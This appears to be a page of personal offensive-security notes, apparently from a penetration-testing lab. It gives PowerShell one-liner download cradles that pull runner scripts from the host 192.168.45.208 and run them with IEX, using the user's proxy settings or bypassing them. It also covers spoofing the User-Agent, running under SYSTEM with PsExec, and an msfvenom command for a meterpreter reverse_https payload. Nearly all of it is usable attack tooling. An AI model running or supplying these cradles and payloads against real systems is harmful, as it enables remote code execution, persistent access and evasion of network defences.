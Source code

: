     #####One-liner Cradle:
    powershell New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null;$sid='*S-1-5-21-*';ForEach ($key in $(Get-ChildItem 'HKU:\')) {if ($key.Name -like $sid) {$start = $key.Name.substring(10);break}};$proxyAddr=(Get-ItemProperty -Path 'HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\').ProxyServer;[system.net.webrequest]::DefaultWebProxy = new-object System.Net.WebProxy('http://$proxyAddr');(new-object system.net.WebClient).DownloadString('http://192.168.45.208/runner.txt') | IEX;if (! $?) {$wc2 = new-object system.net.WebClient;$wc2.proxy = $null;$wc2.DownloadString('http://192.168.45.208/runnerNoProxy.txt')|IEX}

    //worked from cmd:
        powershell "New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null;ForEach ($key in $(Get-ChildItem 'HKU:\')) {if ($key.Name -like \"*S-1-5-21-*\") {$start = $key.Name.substring(10);break}};$proxyAddr=(Get-ItemProperty -Path \"HKU:$start\\Software\\Microsoft\\Windows\\CurrentVersion\\Internet Settings\\\").ProxyServer;[system.net.webrequest]::DefaultWebProxy = new-object System.Net.WebProxy(\"http://$proxyAddr\");(new-object system.net.WebClient).DownloadString('http://192.168.45.208/runner64.txt') | IEX"

    ///OR:
    $browser = New-Object System.Net.WebClient
    $browser.Proxy.Credentials =[System.Net.CredentialCache]::DefaultNetworkCredentials

    ///OR:
    [System.Net.WebRequest]::DefaultWebProxy = [System.Net.WebRequest]::GetSystemWebProxy()
    [System.Net.WebRequest]::DefaultWebProxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials

    ###########Proxy Troubleshooting:#############
    Proxy Checking/Bypass:
        Net.WebClient is proxy aware (for now at least); Meterpreter is also proxy aware
            Meterpreter is fully proxy aware - both system settings/registry and netsh winhttp proxy
        Check if proxy will be used for a request (host/port):  [System.Net.WebRequest]::DefaultWebProxy.GetProxy("http://192.168.45.208/runner.ps1")
        Bypass:
            $wc = new-object system.net.WebClient
            $wc.proxy = $null
            $wc.DownloadString("http://192.168.45.208/runner.ps1")
    Setting User-Agent:
        $wc = new-object system.net.WebClient
        $wc.Headers.Add('User-Agent', "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36")
        $wc.DownloadString("http://192.168.45.208/runner.ps1")
    Using User's Proxy in SYSTEM Session:
        //Test:  PsExec.exe -s -i C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell_ise.exe; do the request and check access log
        Stored at:  HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\InternetSettings - ProxyEnable; ProxyServer
        Map it as System:  New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
        ...
        //see proxy-aware PowerShell download cradle that works while SYSTEM - and can fallback to no proxy

#### PS Reflective Loading Runner:

    //injects into self
    // msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread PrependMigrate=true PrependMigrateProc=svchost.exe -f csharp
